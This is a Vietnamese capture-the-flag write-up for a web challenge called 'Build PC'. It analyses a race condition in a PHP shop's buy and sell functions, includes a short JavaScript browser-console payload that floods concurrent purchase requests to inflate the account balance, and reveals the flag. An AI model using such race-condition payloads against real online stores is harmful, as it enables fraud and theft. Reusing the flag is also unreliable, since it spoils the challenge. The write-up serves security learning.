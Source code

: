 ## Build PC
### 100 points

Không có nhiều điều để nói về bài này lắm :))

### Đề bài
<pre>
<a href="http://35.240.153.120:8003">http://35.240.153.120:8003</a>

<a href="assets/BUILD_PC/source.zip">source.zip</a>
</pre>

### Giao diện của bài:

![][view-register]

![][view-login]

### Lời giải
Tạo 1 tài khoản, đăng nhập thử

![][view-shop]

Có vẻ như với bài này chúng ta sẽ phải đi shopping rồi. Để ý thấy balance của chúng ta có 60 củ.

Nghía qua source tí, thấy nó tương ứng với dòng này trong file `RegisterController.php`. Mỗi user khi đăng ký đều được cấp 60 củ giống nhau.

![][view-register-controller-src]

Tuy nhiên flag thì tận 100 củ cơ, vậy 40 củ nữa chúng ta phải kiếm ở đâu?

Thử tất tay con RTX 2080 này xem nào. Sau khi hết tiền và đòi mua cố, chúng ta nhận được một câu chửi rất gắt :<.

![][view-out-of-money]

Mua xong, thử qua trang `Cart`, thấy có chức năng bán, bán hết thì tiền của ta lại về như ban đầu.

![][view-cart]

Vậy cơ bản mục tiêu của bài này là mua bán làm sao để biến balance từ 60 củ thành 100 củ để mua flag.

Soi lại trong source, thấy câu chửi lúc nãy nằm trong `ShopController.php`.

![][view-shop-controller-src]

Để ý chút thì ta thấy hàm `buyItem` rất có vấn đề, khi mà check xem user có đủ tiền không bằng `$user->money >= $item->price`, sau đó đưa luôn item vào giỏ hàng của user bằng lệnh `$con->queryUpdate("insert into user_items(user_id, item_id) values(?, ?)", [$user->id, $item->id])`, rồi mới trừ tiền user bằng `$user->money -= $item->price`.

Điều này có nghĩa rằng việc trừ tiền user sẽ bị delay một chút bởi việc kết nối tới database và thực hiện query kia. Thế thì khả năng là nếu chúng ta gửi một loạt requests đủ nhanh, nhanh hơn thời gian delay của server khi query database, thì chúng ta sẽ mua được nhiều hơn số tiền mình có.

Soi thêm hàm `sellItem` trong `CartController.php`, cũng thấy có vấn đề tương tự, tuy nhiên ở đây tiền lại được cộng trước khi sản phẩm bị xoá khỏi giỏ hàng, chứng tỏ đây là dụng ý của người ra đề.

![][view-cart-controller-src]

Sau khi biết hướng đi rồi, cộng với việc biết Javascript chạy bất đồng bộ và có tốc độ request khá là ổn, nên mình viết ngay một payload thế này để chạy trên browser console

```javascript
cookie = '<cookie>';

buy = () => fetch('http://35.240.153.120:8003/index.php?page=shop', { body: `item_id=2`, headers: {'Cookie': cookie, 'Content-Type': 'application/x-www-form-urlencoded'}, method: 'POST' })
sell = () => fetch('http://35.240.153.120:8003/index.php?page=cart', { body: `item_id=2`, headers: {'Cookie': cookie, 'Content-Type': 'application/x-www-form-urlencoded'}, method: 'POST' })

(async() => {
	let promises = [];

	for (let i = 0; i < 5; i++) {
	    // Send 5 sell requests at once to trigger race condition
		for (let j = 0; j <= 5; j++) promises.push(buy());

		await Promise.all(promises);

        // Sell 1 back to have enough money for the next buying round
		await sell();
    }
})();
```

Vì là `Race condition` nên mình nghĩ đôi khi nó trigger một cách hên xui, thành ra mình cứ phải chạy lại vài lần mới exploit được.

Sau vài lần chạy payload thì cuối cùng mình đã tích đủ thận để bán đi mua flag rùi :3

![][view-exploited]

Thực ra khi làm bài này thì mình không phân tích nhiều như thế mà nhảy vào spam requests luôn, thành ra mình phát hiện ra cách làm trước cả khi đọc source. Tuy nhiên mình vẫn muốn phân tích đầy đủ theo cách tư duy của mình để mọi người có thể hiểu một cách dễ dàng mạch lạc nhất :D.
### Flag
![][flag]
```
flag{Rac3_c0nditi0n__help_y0u}
```

[view-register]: assets/BUILD_PC/view-register.png
[view-login]: assets/BUILD_PC/view-login.png
[view-shop]: assets/BUILD_PC/view-shop.png
[view-register-controller-src]: assets/BUILD_PC/view-register-controller.png
[view-out-of-money]: assets/BUILD_PC/view-out-of-money.png
[view-shop-controller-src]: assets/BUILD_PC/view-shop-controller.png
[view-cart]: assets/BUILD_PC/view-cart.png
[view-cart-controller-src]: assets/BUILD_PC/view-cart-controller.png
[view-exploited]: assets/BUILD_PC/view-exploited.png
[flag]: assets/BUILD_PC/flag.png